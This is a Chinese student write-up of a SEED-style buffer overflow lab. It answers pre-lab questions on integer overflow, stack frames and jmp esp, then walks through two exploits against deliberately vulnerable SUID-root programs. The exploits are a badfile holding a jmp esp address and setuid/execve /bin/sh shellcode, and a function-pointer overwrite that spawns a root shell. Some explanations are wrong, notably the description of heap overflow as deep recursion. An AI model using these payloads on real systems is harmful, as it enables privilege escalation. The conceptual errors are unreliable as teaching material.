# Buffer_Overflowproj

本文作者：[对酒当歌](https://blog.csdn.net/youyouwoxi)、边城

# Pre

#### 1、阅读Basic Integer Overflows 这篇文章，大概描述整数溢出的原因和危害。

http://www.phrack.org/issues.html?issue=60&id=10#article

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <setjmp.h>

void catcher(int a)
{
       setresuid(geteuid(),geteuid(),geteuid());
       printf("WIN!\n");
       system("/bin/sh");
       exit(0);
}

int main(int argc, char **argv)
{
       if (argc != 3 || !atoi(argv[2]))
               return 1;
       signal(SIGFPE, catcher);
       return atoi(argv[1]) / atoi(argv[2]);
}
```

上面这段代码如何才能执行到`system("/bin/sh")`处？

整数溢出：由于整数是固定大小（在本文中为 32 位），它可以 存储一个固定的最大值。当尝试存储一个大于此最大值的值，称为整 数溢出。ISO C99 标准指出整数溢出会导致“未定义的行为”，表示符 合标准的编译器从完全忽略溢出到中止，他们可能会做任何他们喜欢 的事情该程序。大多数编译器似乎忽略了溢出，从而导致存储了意外 或错误的结果。 

整数溢出的危害：整数溢出发生后无法检测到，因此有应用程序无法判断其先前是否已计算过结果实际上是正确的。如果必须这样 做，可能会很危险缓冲区的大小或要索引到数组的距离。当然大多数 整数溢出不可利用，因为内存不足直接覆盖，但有时它们可能导致其 他类别的错误经常发生缓冲区溢出。不仅如此，整数溢出可能是很难 发现，因此即使经过良好审核的代码也可以带来问题。 

查询 signal 函数的用法可知，当 SIGFPE 为 1 时（即发生整数溢出 时），执行 catcher 函数。 

对于上述这段漏洞代码，是一个典型的整数溢出。我们知道一个单位所能表示的最大正整数总是比能表示的最小负整数的绝对值小1，所以如果我们能把最小负整数除以-1，那么将得到比最大正整数大1的数，从而导致整数溢出。

查询 signal 函数的用法可知，当 SIGFPE 为 1 时（即发生整数溢出 时），执行 catcher 函数。 signal函数的定义很复杂，但是它的用法还是比较简单的。signal有两个参数sig和func，signal这个函数是用来接收信号并处理的，所以sig参数表示将要处理哪种类型的信号，而func参数是一个函数指针，用来指定信号的处理函数，也就是当程序接收到sig那个类型的信号后，就会调用func指针指向的函数。func指针的原型是：void (*func) (int)。SIGFPE表示数学相关的异常，如被0除，浮点溢出，等等函数作用。执行了signal()调用后，进程只要接收到类型为sig的信号，不管其正在执行程序的哪一部分，就立即执行func()函数。所以当发生整数溢出时将会立即执行catcher函数，从而达到我们的目的。

我们知道在 32 位和 64 位机器中，int 占 32 位，取值范围为 -2147483648～2147483647（-2^31^ ～2^31^-1），所以将-2147483648/(-1) 得到 2147483648 就能产生整数溢出。

```bash
gcc -o pre pre.c
./pre -32768 -1
./pre -2147483648 -1

./pre -9999999999 -1
```



#### 2、阅读堆溢出的文章Once upon a free()... 

http://www.phrack.org/issues.html?issue=57&id=9#article。比较堆溢出和栈溢出的异同。

堆溢出的产生是由于过多的函数调用，导致调用堆栈无法容纳这 些调用的返回地址，一般在递归中产生。堆溢出很可能由无限递归 (Infinite recursion)产生，但也可能仅仅是过多的堆栈层级。 

栈溢出是由于 C 语言系列没有内置检查机制来确保复制到缓冲 区的数据不得大于缓冲区的大小，因此当这个数据足够大的时候，将 会溢出缓冲区的范围。

```c
int f(int x)
{
  int a[10];
  a[11] = x;
}
```

这个就是栈溢出，x被写到了不应该写的地方。在特定编译模式下，这个x的内容就会覆盖f原来的返回地址。也就是原本应该返回到调用位置的f函数，返回到了x指向的位置。一般情况下程序会就此崩溃。但是如果x被有意指向一段恶意代码，这段恶意代码就会被执行。

堆溢出相对比较复杂，因为各种环境堆的实现都不完全相同。但是程序管理堆必须有额外的数据来标记堆的各种信息。堆内存如果发生上面那样的赋值的话就有可能破坏堆的逻辑结构。进而修改原本无法访问的数据。

```c
int f(char *s, int n)
{
  char a[10];
  memcpy(a, s, n);
...
```

这个是栈溢出比较真实一点的例子，如果传入的数据长度大于10就会造成溢出，进而改变f的返回地址。只要事先在特定地址写入恶意代码，代码就会被执行。

堆溢出执行恶意代码的一种情况是通过过长的数据破坏堆结构，使下次申请能得到保存某些特定函数指针的位置，然后进行修改。

#### 3、阅读后解释一下什么是Stack Frame

https://www.cnblogs.com/33debug/p/6773059.html
https://www.cnblogs.com/qinfengxiaoyue/p/3523166.html
https://www.jianshu.com/p/b666213cdd8a

局部变量和参数位于栈上。在调用方法的时候，内存从栈的顶部 开始分配，保存和方法关联的一些数据项。这块内存叫做方法的栈帧 （stack frame）。 栈帧包含的内存保存如下内容。 返回地址，也就是在方法退出的时候继续执行的位置。 这些参数分配的内存，也就是方法的值参数，或者还可能是参 数数组。各种和方法调用相关的其他管理数据项。 在方法调用时，整个栈帧都会压入栈。 在方法退出的时候，整个栈都会从栈上弹出。弹出栈帧有的时候也叫做栈展开。

栈帧(Stack Frame)

每一次函数的调用,都会在调用栈(call stack)上维护一个独立的栈帧(stack frame)。每个独立的栈帧一般包括：

- 函数的返回地址和参数

- 临时变量: 包括函数的非静态局部变量以及编译器自动生成的其他临时变量

- 函数调用的上下文

栈是从高地址向低地址延伸,一个函数的栈帧用ebp 和 esp 这两个寄存器来划定范围。ebp 指向当前的栈帧的底部,esp 始终指向栈帧的顶部;

- ebp 寄存器又被称为帧指针(Frame Pointer);

- esp 寄存器又被称为栈指针(Stack Pointer);

 

 

在函数调用的过程中,有函数的调用者(caller)和被调用的函数(callee).

- 调用者需要知道被调用者函数返回值;

- 被调用者需要知道传入的参数和返回的地址;

函数调用分为以下几步:

1. 参数入栈: 将参数按照调用约定(C 是从右向左)依次压入系统栈中;

2. 返回地址入栈: 将当前代码区调用指令的下一条指令地址压入栈中，供函数返回时继续执行;

3. 代码跳转: 处理器将代码区跳转到被调用函数的入口处;

4. 栈帧调整:
    - 将调用者的ebp压栈处理，保存指向栈底的ebp的地址（方便函数返回之后的现场恢复），此时esp指向新的栈顶位置； `push ebp`
    - 将当前栈帧切换到新栈帧(将esp值装入ebp，更新栈帧底部), 这时ebp指向栈顶，而此时栈顶就是old ebp `mov ebp, esp`
    - 给新栈帧分配空间 `sub esp, XXX`

函数返回分为以下几步:

1. 保存被调用函数的返回值到 eax 寄存器中 mov eax, xxx

2. 恢复 esp 同时回收局部变量空间 mov esp, ebp

3. 将上一个栈帧底部位置恢复到 ebp pop ebp

4. 弹出当前栈顶元素,从栈中取到返回地址,并跳转到该位置 ret

到这里栈帧以及函数的调用与返回已经结束了，这里涉及一些汇编的知道,这里还没有记录不同平台的调用约定和一些特殊的寄存器.

#### 4、上网搜索利用jmp esp或者call esp来进行栈溢出的文章并且仔细阅读，解释这种技术的优点。

为了避免函数中的栈帧随机化，如果使用固定栈帧地址的话，难 免会有地址无效化的情况。因此可以寻找` jmp esp `这种指令（也能使 用其他跳转）当跳板使函数固定跳到栈顶。就不用考虑地址随机化的 问题，只需要使代码的开头对齐栈顶就行了。如果程序不让精准定位 shellcode 可以用 nop 来扩大 shellcode 的范围。如果是程序返回地址 不定可以使用一长串 ret 指令来覆盖正确的返回地址。

# Lab

[HomeWork/SEEDLabs/Buffer_Overflowproj at main · SKPrimin/HomeWork (github.com)](https://github.com/SKPrimin/HomeWork/tree/main/SEEDLabs/Buffer_Overflowproj)

## 1stackesp.c

```c
/* stackesp.c */

/* This program has a buffer overflow vulnerability. */
/* Our task is to exploit this vulnerability */
/* sudo sysctl -w kernel.randomize_va_space=2 then use jmp esp or call esp(no nops) */

#include <stdlib.h>
#include <stdio.h>
#include <string.h>

//use jmp esp or call esp
int someint=0xe4ffd4ff;

int bof(char *str)
{
   char buffer[12];

   /* The following statement has a buffer overflow problem */
   strcpy(buffer, str);

   return 1;
}


int main(int argc, char **argv)
{
   char str[517];
   FILE *badfile;

   printf("%x\n",&someint);
   badfile = fopen("badfile", "r");
   fread(str, sizeof(char), 517, badfile);
   bof(str);

   printf("Returned Properly\n");
   return 1;
}


```

> 实验原理： 利用栈溢出，将 bof 函数堆栈帧中的返回地址覆盖为 jmp esp 指令的地址，CPU 执行到返回地址处时，它会执行 jmp esp 指令， 执行完这个指令之后，CPU 会返回到被中断指令的下一条指令处接着执行，我们将Shellcode 放到这个被中断指令处，CPU就会执行Shellcode， 从而实现攻击。

### root下编译赋权

1. 打开地址随机化，编译 stack.c 程序（打开栈可执行，关闭栈保护）， 并赋予 SUID 权限。

```bash
su
sysctl -w kernel.randomize_va_space=2
gcc -o stackesp -z execstack -fno-stack-protector stackesp.c
sudo chown root stackesp
sudo chmod 4755 stackesp
```



### 标记缓冲区

用“AAAA”标记 buffer 数组的前四个字节，运行stack查看jump esp的地址。

```bash
python -c 'print "AAAA"' > badfile
或者
perl -e 'print "AAAA"' > badfile
```



```
./stackesp
```



可见，jump esp命令的地址为`0x0804a024`

### gdb调试

为了计算 buffer 首地址和 bof 函数返回地址相差的字节数。使用 gdb 调试 stackesp，并反汇编 main 函数。

```bash
gdb stackesp

disas main
```



可见，bof 函数的返回地址为 `0x08048544`。

再反汇编 bof 函数：

```bash
disas bof
```


可见，bof 函数结束的地址为 `0x080484cc`。

在 0x080484cc 地址处设置断点，运行到断点处后，再查看内存情况。

```bash
b*0x080484cc

r

x/20xw $esp
```



可以看出 buffer 的首地址离存放 bof 返回地址的地址差了$6\times4=24$ 个 字节，即在 jmp esp 地址前填充 24 个字符即可。

### 攻击

修改 badfile 后再进行攻击。先确定 jmp esp 的地址。

重新编写 badfile，使用如下命令

```bash
python -c 'print "AAAAAAAAAAAAAAAAAAAAAAAA\x24\xa0\x04\x08\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80"' > badfile

perl -e 'print "AAAAAAAAAAAAAAAAAAAAAAAA\x24\xa0\x04\x08\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80"' > badfile
```



## 2overfun.c

```bash
/* overfun.c */

/* This program has a buffer overflow vulnerability. */
#include <stdio.h>
#include <unistd.h>
#include <string.h>

int good(int addr)
{
    printf("Address of hmm: %p\n", addr);
}

int hmm()
{
    printf("Win.\n");
    setuid(geteuid());
    execl("/bin/sh", "sh", NULL);
}

extern char **environ;

int main(int argc, char **argv)
{

    int i, limit;

    for (i = 0; environ[i] != NULL; i++)
        memset(environ[i], 0x00, strlen(environ[i]));

    int (*fptr)(int) = good;
    char buf[32];

    strcpy(buf, argv[1]);

    int (*hmmptr)(int) = hmm;

    (*fptr)((int)hmmptr);

    return 0;
}
```

> 实验原理： 将程序中的 fptr 指针重定向为 hmm，这样程序就会执行 hmm 函数中的 shellcode，从而获取 root 权限。 


### root下编译赋权

打开地址随机化，编译 overfun.c 程序（关闭栈保护，不需要打开栈可执行），并赋予 SUID 权限。



### 计算距离

#### 定位hmm 

确定 hmm 函数的地址

```
./overfun 1
```



可见，hmm 函数的入口地址为：`0x8048570`

#### gdb调试

计算 buf 首地址和 good 函数入口地址相差的字节数。 

用 gdb 调试 overfun，反汇编 good 函数

```
gdb overfun

disas good
```



可见，good 函数的入口地址为 `0x08048554`

再反汇编 main 函数。



可见执行完 strcpy 函数后的地址为，`0x0804864e`。


在主函数调用完strcpy，即将执行最后一句时应设置断点，即在 `0x0804864e `处设置断点，使用“`AAAA`”标记 buf 前四个字节，运行到断点处，用 x 命令查看内存内容，观察输入的起始地址与good函数起始地址距离，为覆盖good函数地址做准备

```bash
b*0x0804864e

r AAAA

x/50xw $esp
```



可见，buf 的首地址与存放 good 函数入口地址的地址相差 $4\times9=36$ 个 字节。所以我们先给 buf 数组填充 36 个字符‘A’，再将 hmm 地址 写入即可。

### 攻击

已知hmm 函数的入口地址为：0x8048570，我们让程序能进入此处。

生成36个A。

```
python -c "print 'A'*36"
```

进行攻击，设置输入为36个字符+hmm函数入口地址，用hmm函数入口地址覆盖good函数入口地址，使程序执行hmm函数，进而获取root权限

```bash
./overfun $(python -c "print 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x70\x85\x04\x08'")
```



攻击成功


